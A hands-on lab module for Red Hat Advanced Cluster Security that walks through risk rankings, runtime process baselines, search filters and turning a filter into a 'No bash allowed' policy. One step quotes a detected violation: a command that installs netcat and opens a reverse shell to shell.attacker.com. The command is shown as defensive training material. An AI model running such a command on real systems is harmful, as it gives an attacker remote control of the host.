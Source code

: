 :labname: Risk

== {labname} Lab

:numbered:

== Introduction to Risk

You are now acquainted with the detailed information that Red Hat^(R)^ Advanced Cluster Security for Kubernetes (RHACS) provides about vulnerabilities and workflows to manage individual vulnerabilities.
Often the number of vulnerabilities detected can seem daunting to those uninitiated into security practice.
You need a system to evaluate the potential risk of harm from these vulnerabilities.
And you need a way of prioritizing vulnerabilities to be addressed and not just defer them.

RHACS understands the three major phases of an application's lifecycle to be _build_, _deploy_, and _runtime_.

The risk evaluation functionality of RHACS is used to understand how deployment-time configuration and runtime activity impact the likelihood of exploits occurring and how successful those exploits may be.
It assesses risk across your entire environment and ranks your running deployments according to their security risk.
It also provides details about vulnerabilities, configurations, and runtime activities that require immediate attention.
This helps you prioritize the remedial actions you plan to take.

Risk is influenced by runtime activity as well as deployments with activity that can indicate a breach.

Realistically it is not possible to tackle all sources of risk, so organizations prioritize their efforts.
RHACS helps to inform that prioritization.

.Goals
* View risk justifications
* Lock baselines to track deviations
* Find vulnerabilities quickly with filters
* Create policies from filters

[[labexercises]]


== View Risk Justifications

=== View Risks by Deployment

In this section, you look at the complete view of the risks by deployments in all the clusters of your system.

This list view shows all deployments, in all clusters and namespaces, ordered by risk priority.
Deployments are sorted by a multi-factor risk metric based on policy violations, image contents, deployment configuration, and other similar factors.
Deployments at the top of the list present the most risk.

.Procedure
. From the left navigation menu, select the *Risk* tab:
+
image::images/rhacs_risk_view.png[RHACM Risk view]

=== View Single Deployment Details

In this section, you examine the riskiest deployment to gain an understanding of how risk is assessed during deploy time.

.Procedure
. Click the `visa-processor` deployment to bring up the *Risk Details* panel, with the *Risk Indicators* tab selected:
+
image:images/rhacs_risk_details_panel.png[Risk Details panel]
+
The *Risk Indicators* tab shows why this deployment is considered a high risk.
The deployment has serious, fixable vulnerabilities, but it also has configurations such as network ports and service exposure outside the cluster, making it more likely to be attacked.
+
In addition, other configurations such as privileged containers mean that a successful attacker has access to the underlying host network and file system, including other containers running on that host.
+
. Navigate to the bottom of the *Risk Indicators* page to the *RBAC Configuration* section.
+
At the bottom, you see another serious problem: the service account associated with this deployment was given _cluster admin_ privileges. This means that a successful attacker gains full control over this entire OpenShift^(R)^ cluster.

All of these configurations are gleaned automatically by RHACS from OpenShift, and the built-in policies assign a risk score to each, meaning that this risk report is available as soon as you start running RHACS.

== Track Processes and Lock Baselines at Runtime

Examining deployment details shows you which security vulnerabilities may be present during deploy time.
Of course, you cannot restrict yourself to build- and deploy-time configuration.

Even a perfectly configured application has the potential for an attacker to gain access and cause havoc at runtime.
In this section, you see how RHACS continuously monitors runtime activity within pods in the deployment, building a baseline of observed behavior, and tracking deviations from that baseline.

=== Track Processes

.Procedure
. On the Visa-Processor Risk Details right panel, navigate to the *Process Discovery* tab.
You can see that a baseline of processes is already established. and that a few violations of that baseline have already been discovered.
The baseline is a list of the processes currently running.
If RHACS detects new processes that are not in the baseline, alerts are created.
You could in theory add those processes to the baseline with the `+` sign and silence the alert, but that is not a good idea at this point.
. Click the drop-down arrow next to `/bin/bash` to reveal the specific context that triggered this violation: `-c /usr/bin/sudo /usr/bin/apt-get -y install netcat; /usr/bin/sudo /bin/nc shell.attacker.com 9001 -e /bin/bash`.
. Optionally, add tags to help organize your analysis:
+
image::images/rhacs_process_discovery.png[RHACS Process Discovery]
+
. In the header bar, click the *View Graph* to call up the *Event Timeline*.
+
The event timeline shows for each pod the process activity that has occurred over time.
+
. Click the squares or circles for process activity:
+
image::images/rhacs_event_timeline.png[RHACS Event Timeline]
+
You can take advantage of the constrained lifecycle of containers for better runtime incident detection and response.
Containers are not general-purpose virtual machines and therefore generally have a simple lifecycle.
They typically have a period of startup, with some initialization, and then settle down to a small number of processes running continuously and making or receiving connections.
Deviations from the baseline can be used to take enforcement action and alert team members.
Runtime activity rules can be combined with other activity.
+
. Press `Esc` to close the *Event Timeline* window.

=== Lock Baseline

Fortunately, the `visa-processor` deployment is already locked.
That is why running `bash` was a violation.
In this section, you take a look at what processes are explicitly allowed to run in the deployment.

.Procedure
. Click the *Process Discovery* tab on the *Risk Details* panel.
. Scroll down to the *Spec Container Baselines* section:
+
image::images/rhacs_lock_baselines.png[RHACS Lock Baselines]
+
The tooltip shows that the `visa-processor` container is already locked, and warns of the consequences of unlocking.
The list below shows all of the processes discovered and added to the baseline in the first hour of runtime.
. Scroll down to the bottom of the list and see another container, the `visa-processor-sidecar` that is also accounted for.
. Hover over the lock icon for the `visa-processor-sidecar` and note that it is not locked.
. Go ahead and lock the baseline.
All further processes run in this sidecar that are not among the several listed result in a triggered alert.
. Click *X* to close the details panel.

== Find Vulnerabilities Quickly with Filters

In the *Risk* view, as well as in most UI pages, RHACS has a filter bar at the top that allows you to narrow the reporting view to matching or non-matching criteria.
Almost all of the attributes that RHACS gathers are filterable.
This is very useful in the *Risk* view when you know what you are looking for--for example, when you want answers to questions such as, "What applications have CVE-2020-1008 present?".

.Procedure
. Enter `Process Name` in the filter bar (where it reads `Add one or more resource filters`) and select the *Process Name* key.
. Enter `bash` and then press *Enter*.
. Click away to clear the filter.
+
Several deployments are shown to have run `bash` since they started--and all of them are in production.
+
. To the right of the filter bar, hover over the *+* (Create Policy) button
to reveal the *Create Policy from Current Search* tooltip.

== Create Policies from Filters

Now that you are familiar with searching for interesting criteria, you can create a policy from the search filter to automatically identify this criteria going forward.

=== Create Policies

You can create new security policies based on filtering criteria that you select.
RHACS transforms the filtering criteria into policy criteria by converting the cluster, namespace, and deployment filters to equivalent policy scopes.

To create a policy, you use the same filter to see which deployments have run `bash` that you used previously.
However, when you create new security policies from the *Risk* view based on the selected filtering criteria, not all criteria are directly applied to the new policy.
You must fill out some additional information.

.Procedure
. Click the *+ (Create Policy)* next to the filter bar and complete the required fields to create a new policy:
* *Name*: `No bash allowed`
* *Severity*: `High`
* *Description*: `No bash allowed`
* *Rationale*: `Too many known vulns`
* *Remediation*: `Use ZSH`
* *Categories*: `Anomalous Activity`
* *Restrict to Scope*:
** *Cluster*: `production`
. At the top of the panel, click *&rarr; Next*.
(*Next* may not appear if your window is narrow).
. Confirm the process name of `bash` and click *Next* again.
. Click *Next* to approve the warning about creating a policy that generates violations.
. For the *Runtime Enforcement Behavior* option, click *On*.
. Click *Save*.
. Explore the list of *System Policies* and expect to see your new policy.

=== Explore Advanced Filtering

You can write more advanced filters that focus on particular scopes to detect vulnerabilities more accurately.

Local page filtering on the *Risk* view combines the search terms by using the following methods:

* Combines the search terms within the same category with an `OR` operator. For example, if the search query is `Cluster:A,B` the filter matches deployments in cluster `A` or cluster `B`.

* Combines the search terms from different categories with an `AND` operator. For example, if the search query is `Cluster:A+Namespace:Z`, the filter matches deployments in cluster `A` and in namespace `Z`.

When you add multiple scopes to a policy, the policy matches violations from any of the scopes. For example, if you search for `(Cluster A OR Cluster B) AND (Namespace Z)` it results in two policy scopes, `(Cluster=A AND Namespace=Z)` OR `(Cluster=B AND Namespace=Z)`.

NOTE: Not all filters can be used in policies.
RHACS drops or modifies filters that do not directly map to policy criteria and reports the dropped filters.
See the link:https://docs.openshift.com/acs/3.68/operating/evaluate-security-risks.html#understanding-filtering-to-policy-mapping_evaluate-security-risks[Understanding ... the filtering criteria into policy criteria^] documentation for more information.

.Procedure
. Try some of these scopes yourself by indicating different namespaces in your filters.

== Summary

In this lab, you became familiar with the power of RHACS.
RHACS does not simply surface vulnerabilities.
It determines the risk of the vulnerabilities based on how and where they appear in the application lifecycle--build, deploy, and runtime.

You learned the various risk priority justifications RHACS provides, and filtered and searched through these vulnerabilities.

For each deployment, RHACS reports the risk indicators, deployment details, and processes necessary to discover vulnerabilities.

You tracked processes running in containers and locked a baseline of processes, which results in the triggering of violations for all processes detected that are not in the baseline.

Finally, you created filters to see the extent of a vulnerability across your fleet, and created a policy based on that discovery.

In the next module, you begin using the Network Graph to better understand and protect your system and applications.

